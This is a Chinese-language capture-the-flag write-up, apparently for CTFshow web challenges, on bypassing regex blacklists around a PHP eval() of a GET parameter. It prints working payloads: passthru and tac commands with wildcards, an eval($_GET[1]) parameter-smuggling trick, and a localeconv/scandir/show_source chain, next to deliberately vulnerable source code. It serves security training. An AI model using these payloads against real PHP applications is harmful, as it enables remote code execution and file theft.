 注意其中的exec，它的返回字符串只是外部程序执行后返回的最后一行；若需要完整的返回字符串，可以使用 **PassThru()** 这个函数

```
?c=passthru("tac fla*");
```

**假如*号被过滤了**，我们可以通过 `?c=passthru("ls");` 先获取flag.php是目标，然后再通过？来匹配单个字母，也就是fla?????匹配flag.php

```
?c=passthru("tac fla?????");
```

```
?c=echo `cp fl*ag.p*hp 1.txt | cat 1.txt`;
```

**带参数输入**，也是一种免杀思路，正则只匹配了 c 的参数值

```
?c=eval($_GET[1]);&1=system("tac flag.php");
```

## web31

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

```
?c=eval($_GET[1]);&1=system("tac flag.php");
```

```
?c=echo(`ls`);
```

可以利用已知的其他函数来凑出所需要的字符串来绕过

```
?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

localeconv()：返回包含本地化数字和货币格式信息的关联数组。这里主要是返回数组第一个"."
pos():输出数组第一个元素，不改变指针；
scandir();遍历目录，这里因为参数为"."所以遍历当前目录
array_reverse():元组倒置
next():将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以
show_source():查看源码
```
